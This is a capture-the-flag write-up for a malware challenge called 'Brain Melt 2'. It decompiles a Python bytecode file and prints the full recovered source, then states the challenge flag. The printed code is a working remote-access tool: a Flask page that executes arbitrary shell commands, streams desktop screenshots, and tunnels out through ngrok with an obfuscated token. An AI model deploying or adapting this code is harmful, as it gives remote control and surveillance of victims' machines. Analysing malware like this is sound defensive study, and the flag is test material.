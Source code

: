## Name: Brain Melt 2
#### Category: Malware
#### Difficulty: Medium
#### Description: We'll skip Pyinstxtractor this time so it should be easy right? Note, the archive password is infected and the flag format varies slightly from the hexidecimal and length format. 

## Procedure
run ```file brain-melt-2.pyc``` command<br>

output ```brain-melt-2.pyc: Byte-compiled Python module for CPython 3.8, timestamp-based, .py timestamp: Tue May 21 21:08:49 2024 UTC, .py size: 4963 bytes```<br>

For pyc file we need to recover the python code, i always use pycdc tool for it, you can download pycdc from ```https://github.com/zrax/pycdc```, then just run ```./pycdc ~/brain-melt-2.pyc > brain.py```.<br>

### Brain-melt-2.py content
1) decrypt1, decrypt2, and decrypt3 functions are defined to decrypt various parts of a string to generate a key.<br>
2) deobfuscate function combines the results of the three decryption functions to form a key.<br>
3) ngrok_tunnel sets up an ngrok tunnel using this key.<br>
4) Desktop function takes a PIL image and prepares it to be sent as a JPEG file.<br>
5) execute function runs a shell command and flashes the output to the web interface.<br>

```
from flask import Flask, flash, request, render_template_string, send_file, redirect
from wtforms import Form, StringField, validators, SubmitField
import subprocess
import pyautogui
import io
from PIL import Image
from Crypto.Cipher import Salsa20
from pyngrok import ngrok
import base64
import os

app = Flask(__name__)
app.config['SECRET_KEY'] = os.urandom(24)

def decrypt1(encrypted_str):
    decoded_str = ''
    for i in range(0, len(encrypted_str), 2):
        encoded_chunk = encrypted_str[i:i + 2] + '=='
        decoded_str += base64.b64decode(encoded_chunk).decode('ascii')
    return decoded_str

def decrypt2(a1, a2):
    result = ''
    for character in a1:
        tempcharaddedr = 'temporary value'
        result += chr(((ord(character) - ord('a')) + a2) % 26 + ord('a'))
    return result

def decrypt3(s1, key):
    msg_nonce = s1[:8]
    ciphertext = s1[8:]
    cipher = Salsa20.new(key=key.encode('utf-8'), nonce=msg_nonce)
    return cipher.decrypt(ciphertext).decode('utf-8')

def deobfuscate():
    part1 = decrypt1('ZgbAYQZwewMAOAZQOQYwYwNQYgMA')
    part2 = decrypt2('fwvcttjsfvrshwsg', 17)
    part3 = decrypt3(b'\x97p#2\x1abw\x0f\x9a\xd1Z\x04b\x93\xa1h8]\xab\xa3\x9e7\xc9\xe8\x9b', '25dbd4f362f7d0e64b24ab231728a1fc')
    key = part1 + part2 + part3
    return key

def ngrok_tunnel():
    ngrok.set_auth_token(deobfuscate())
    #http_tunnel = ngrok.connect(5000)
    print(f" * Tunnel URL: {deobfuscate()}")

def Desktop(pil_img):
    img_io = io.BytesIO()
    pil_img.save(img_io, 'JPEG', quality=70)
    img_io.seek(0)
    return send_file(img_io, mimetype='image/jpeg')

def execute(cmd):
    try:
        result = subprocess.run(cmd, shell=True, capture_output=True, text=True, check=True)
        flash(result.stdout)
        flash(result.stderr)
    except subprocess.CalledProcessError as e:
        flash(f"Error: {e}")

class CommandForm(Form):
    command = StringField('Command:', [validators.DataRequired()])
    submit = SubmitField('Submit')

@app.route('/', methods=['GET', 'POST'])
def display():
    form = CommandForm(request.form)
    if request.method == 'POST' and form.validate():
        command = form.command.data
        execute(command)
    return render_template_string('''<!doctype html>
        <html>
        <head>
            <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css">
        </head>
        <body>
            <div class="container">
                <h1>Command Executor</h1>
                <form method="post">
                    <div class="form-group">
                        <label for="command">Command:</label>
                        <input type="text" class="form-control" id="command" name="command">
                    </div>
                    <button type="submit" class="btn btn-success">Submit</button>
                </form>
                {% for message in get_flashed_messages() %}
                <div class="alert alert-info">{{ message }}</div>
                {% endfor %}
                <img src="/images/desktop.jpg" id="img" width="100%" style="height: 100vh;">
            </div>
            <script type="text/javascript">
                window.onload = function() {
                    var image = document.getElementById("img");
                    function updateImage() {
                        image.src = image.src.split("?")[0] + "?" + new Date().getTime();
                    }
                    setInterval(updateImage, 1000);
                }
            </script>
        </body>
        </html>''', form=form)

@app.route('/images/desktop.jpg')
def serve_img():
    screenshot = pyautogui.screenshot()
    return Desktop(screenshot)

if __name__ == '__main__':
    glob_key = '24a0b299984ee8da7aae14b7163e2e63'
    ngrok_tunnel()
    #app.run(host='0.0.0.0', debug=False)

```
<br>

then we can emulate the code, and it will return us the flag

<img width="874" alt="Screenshot 2024-05-26 at 00 17 23" src="https://github.com/sp34rh34d/CTF-writeups/assets/94752464/377ba6f8-cd8d-4a9a-8dbd-0cf37f348ac1">

flag ```flag{08e9cc5b0wnmtkkajwmijynjx3a415bd9a8024930}```
